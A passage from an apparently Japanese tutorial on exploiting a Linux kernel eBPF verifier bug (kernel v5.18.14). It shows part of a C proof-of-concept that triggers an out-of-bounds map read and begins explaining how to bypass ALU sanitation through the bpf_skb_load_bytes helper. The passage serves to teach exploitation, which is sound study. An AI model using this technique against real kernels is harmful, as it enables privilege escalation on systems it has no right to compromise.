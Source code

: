 ```c
  if (socketpair(AF_UNIX, SOCK_DGRAM, 0, socks))
    fatal("socketpair");
  if (setsockopt(socks[0], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(int)))
    fatal("setsockopt");

  /* ソケットを利用（BPFプログラムの発動） */
  write(socks[1], "Hello", 5);

  map_lookup(mapfd, 0, &val);
  printf("val = 0x%016lx\n", val);

  getchar();

  return 0;
}
```
このプログラムを**root権限で**実行すると、次のように、設定した覚えのない値が読めていることが分かります。

<center>
  <img src="img/simple_leak.png" alt="単純な範囲外参照" style="width:720px;">
</center>

実際にgdbで確認すると、マップのアドレスから0x100先にリークしたデータが存在します。

<center>
  <img src="img/gdb_simple_leak.png" alt="gdbで範囲外参照の値を確認" style="width:600px;">
</center>

なお、0x100という定数をMOVで渡すと、検証器に範囲外参照を検知されることから、脆弱性に起因して範囲外参照を起こせていることが分かります。

しかし、一般ユーザー権限で同じプログラムを実行すると、ALU sanitationが加算による範囲外参照を0の加算に変換してしまうため、次のように何もデータがリークできません。（最初から入れていた値1が取り出されていることからも、ALU sanitationにより加算が意味を成していないことが分かります。）

<center>
  <img src="img/user_leak_fail.png" alt="ユーザー権限では範囲外参照に失敗" style="width:640px;">
</center>

<div class="balloon_l">
  <div class="faceicon"><img src="../img/wolf_suyasuya.png" alt="オオカミくん" ></div>
  <p class="says">
    ALU sanitationがない時代は、この手法でbpf_map構造体のopsなどを読み書きする攻撃が主流だったよ。
  </p>
</div>

## ALU sanitationの回避
幸いにも今回の対象であるカーネルv5.18.14では、ALU sanitationを回避する方法が存在します。考え方としては、ポインタへの（範囲外になる）加減算がパッチされてしまうので、既存のヘルパー関数にその処理をやってもらおうという発想になります。

一般ユーザーから使えるヘルパー関数は少ないですが、オフセットやサイズを引数に取る関数を調べてみましょう。すると、ソケットフィルタでは例えば[`skb_load_bytes`](https://elixir.bootlin.com/linux/v5.18.14/source/net/core/filter.c#L1720)という関数が使えます。
```c

BPF_CALL_4(bpf_skb_load_bytes, const struct sk_buff *, skb, u32, offset,
	   void *, to, u32, len)
{
	void *ptr;

	if (unlikely(offset > INT_MAX))
		goto err_clear;

	ptr = skb_header_pointer(skb, offset, len, to);
	if (unlikely(!ptr))
		goto err_clear;
	if (ptr != to)
```

[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外